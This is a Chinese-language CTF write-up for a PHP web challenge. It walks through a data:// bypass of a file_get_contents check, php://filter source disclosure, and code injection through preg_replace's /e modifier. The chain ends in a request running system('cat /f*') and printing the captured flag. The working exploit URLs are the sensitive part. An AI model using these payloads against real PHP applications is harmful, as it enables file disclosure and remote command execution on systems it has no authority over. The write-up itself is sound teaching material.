


$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text) && (file_get_contents($text,'r') === "I have a dream")){
echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
if(preg_match("/flag/", $file)){
die("Not now!");
}
include($file); //next.php
}
审计代码，观察 text 有内容限制才能走到 include。
而且 file_get_contents($text,'r') 的 第一个参数是 $text 本身 —— 也就是说 $text 得是一个「能被读取的东西」，不一定是文件路径。
这里想到用 data 协议，让 file_get_contents 直接读到我们指定的字符串：
/?text=data://text/plain,I have a dream
注意：这一步要让 file_get_contents($text) 返回 I have a dream，不是写文件。
接着构造：
/?text=data://text/plain,I have a dream&file=next.php
但是页面并没有给出文件内容 —— 因为 include 把 next.php 当成代码执行了，而不是读出来显示。
所以改用 php 伪协议 读源码（convert.base64-encode 让它不被执行）：
/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
解码后得到 next.php 的源码。
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;
function complex($re, $str) {
return preg_replace(
'/(' . $re . ')/ei',
'strtolower("\\1")',
$str
);
}
foreach($_GET as $re => $str) {
echo complex($re, $str). "\n";
}
function getFlag(){
@eval($_GET['cmd']);
}
先看 foreach：它把 GET 得到的名字传给 $re，值传给 $str。
接着看这个最重要的正则表达式：i 是忽略大小写，e 是 eval，(...) 把整个匹配包成了捕获组 1，也就是 strtolower 里的 \1；在 PHP 单引号中的 \\1 等效于 \1。
$re 就是 URL 里参数的名字，它被直接拼进了正则。
foreach($_GET as $re => $str) // $re = 参数名,$str = 参数值
↓
'/(' . $re . ')/ei' // 参数名成了正则主体
所以 $re 决定了三件事：
$re 决定 |
说明 |
| 匹配什么 |
它必须能匹配到 $str 里的内容，否则 \1 拿不到东西，注入不成立 |
| 捕获组 1 是什么 |
整个 $re 被 (...) 包住，所以匹配到的内容就是 \1 |
| 替换串里塞进什么 |
\1 被原样拼进 strtolower("\1")，然后整体被 eval |
反过来说：
想要代码执行,必须让 匹配到的内容 = 我们的 payload
而"匹配到的内容"由 $re 决定
→ 所以 $re 必须是一个"什么都匹配"的宽泛正则
还有两个约束：
① $re 里不能有 / → 会把正则模式提前截断
② $re 不能是 . → PHP 会把参数名里的 . 换成 _
替换串是 strtolower("\1")。带 e 修饰符时，替换串会先做反向引用替换，再把结果当成 PHP 代码执行。
而 \1 在双引号里，所以只要捕获到的内容带 " 或 ${...}，就能跳出字符串变成真代码。
PHP 5.x 里 ${表达式} 会对表达式求值：
strtolower("${phpinfo()}")
└────┬─────┘
执行 phpinfo()
所以我们要做的，就是把 \1 的位置变成 ${getFlag()}。
先试：
页面无回显。
原因：PHP 解析 URL 参数时会把参数名里的 . 和空格统一换成 _，所以 .* 变成了 _*，正则变成 /(_*)/ei —— 匹配不到 ${phpinfo()}，所以没反应。
换 \S（匹配任意非空白字符）代替 .：
成功得到回显。
为什么必须大写 S
\S = 非空白字符（大写 S 是「非」）。
\s = 空白字符 —— 写反了就匹配不到 ${phpinfo()}。
/next.php?\S*=${getFlag()}&cmd=system('cat /f*');
注意最后要有分号 —— eval 执行时需要 ; 作为一条代码的结束。

CTF2{4497b560-3b8c-48c7-9991-bc1d0d9bce8c}
getFlag() 里是：
所以实际执行的是 eval("system('cat /f*');")。
eval 把字符串当代码重新解析，必须是一条完整语句：
eval('echo "A"'); // ❌ syntax error, unexpected end of file, expecting ';'
eval('echo "A";'); // ✅
① data:// 骗过 file_get_contents text=data://text/plain,I have a dream
② php://filter 读源码(不执行) file=php://filter/read=convert.base64-encode/resource=next.php
③ 看懂 foreach:参数名=正则 $re
④ /e 让替换串被 eval strtolower("\1")
⑤ 用 \S* 当参数名(避开 . 被吃) ?\S*=${phpinfo()}
⑥ 调 getFlag() 并带 cmd ?\S*=${getFlag()}&cmd=system('cat /f*');
| 点 |
内容 |
data:// |
让 file_get_contents 读到指定内容 |
php://filter |
读源码而不执行（convert.base64-encode） |
/e 修饰符 |
PHP 5.x 专用，替换串被 eval；PHP 7 已移除 |
${表达式} |
PHP 双引号插值里会对表达式求值（{} 单层，不是 {{}}） |
| 参数名即输入 |
foreach($_GET as $re => $str) 让参数名成了攻击面 |
parse_str 的坑 |
参数名里 . 和空格会变成 _ |
eval 的分号 |
必须语法完整，@ 会吞掉报错 |